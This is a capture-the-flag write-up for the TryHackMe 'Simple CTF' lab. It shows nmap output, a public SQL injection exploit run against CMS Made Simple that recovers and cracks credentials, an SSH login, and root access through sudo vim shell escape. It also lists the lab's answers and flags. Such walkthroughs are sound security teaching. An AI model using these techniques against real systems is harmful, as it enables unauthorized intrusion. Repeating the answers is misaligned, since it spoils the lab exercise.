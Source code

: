 # Simple CTF

Beginner level ctf

Room URL: https://tryhackme.com/room/easyctf

---

# Task 1

1. How many services are running under port 1000?

We'll run a portscan to get the answer to question 1 and 2:

```
$ nmap -sC -sV 10.10.254.251
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-02 19:09 CEST
Nmap scan report for 10.10.254.251
Host is up (0.058s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.39.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So we've got an FTP server with anonymous login and a `robots.txt` with two
entries.

```
2
```

2. What is running on the higher port?

```
SSH
```

3. What's the CVE you're using against the application?

Gobuster shows that there's something at `/simple`. It seems to be a CMS called
"CMS Made Simple" with version number 2.2.8. We can throw this into
exploit-db.com and see if we find anything. It seems there
[is](https://www.exploit-db.com/exploits/46635)! An SQL injection vulnerability
for any version below 2.2.10. Let's download that and run it against our box. It
actually needed the pip for `termcolor` so I installed that.

```
https://www.exploit-db.com/exploits/46635
```

4. To what kind of vulnerability is the application vulnerable?

So I wanted to fill out `SQL Injection` here but that contains too many
characters so it had to be `SQLi`

```
SQLi
```

5. What's the password?

The POC we found on exploit-db is running. It found a salt for the password, a
username, an email address, a password hash and it also cracked the password for
us, how nice!

```
$ python poc.py -u http://10.10.254.251/simple/ --crack -w ~/projects/SecLists/Passwords/Common-Credentials/best110.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
secret
```

6. Where can you login with the details obtained?

Just a random guess.

```
SSH
```

7. What's the user flag?

```
$ ls
user.txt
$ cat us
cat: us: No such file or directory
$ cat user.txt
```

```
G00d j0b, keep up!
```

8. Is there any other user in the home directory? What's its name?

```
$ ls /home
mitch  sunbath
```

```
sunbath
```

9. What can you leverage to spawn a privileged shell?

`sudo -l` shows us we can run `/usr/bin/vim` as root without a password.

```
vim
```

10. What's the root flag?

Just open up any random file with `sudo /usr/bin/vim`, then hit `!` and type
`/bin/sh` and you're root.

```
$ sudo /usr/bin/vim anything

# ls /root
root.txt
# cat /root/root.txt
```

```
W3ll d0n3. You made it!
```
